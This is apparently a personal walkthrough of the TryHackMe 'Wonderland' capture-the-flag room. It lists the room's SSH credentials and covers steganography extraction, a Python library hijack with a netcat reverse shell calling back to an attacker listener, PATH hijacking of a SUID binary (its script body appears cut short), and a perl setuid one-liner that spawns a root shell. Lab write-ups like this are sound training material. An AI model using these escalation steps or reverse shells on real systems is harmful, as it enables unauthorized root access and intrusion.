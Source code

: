 ```yaml
---
title: Wonderland
date: 2022-09-19 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [stegseek, sudo, PATH, Linux]
---
```


Fall down the rabbit hole and enter wonderland.

* * *

## Notes

- `stegseek -sf index.jpeg `
- follow the r/a/b/b/i/t which is a hint for the directories i found with ferroxbuster

then viewing source gets us to the ssh logins for alice:HowDothTheLittleCrocodileImproveHisShiningTail

- `sudo -l`

the python script is importing 'random', however random isnt calling a path so we can create a random.py for the script to import with a nc mkfifo calling back to a listener on our attacker

Checking teaParty which has SUID set as hatter in rabbits dir with ghidra we see it is running date and not calling full path. We can take advantage of this by creating a script `date` in `tmp` and adding tmp tot he path. 

date

```
#!/bin/sh

-i
```

than `export PATH=/tmp:$PATH`

running `./teaParty` gets us hatters shell

hatter creds

hatter:WhyIsARavenLikeAWritingDesk?

running linpeas eariar we found perl has setuid capabilities. GTFO bins get us root

`perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

* * * 

## user.txt?

/root

* * * 

## root.txt?

/home/alice

* * * 

Source: <https://tryhackme.com/room/wonderland>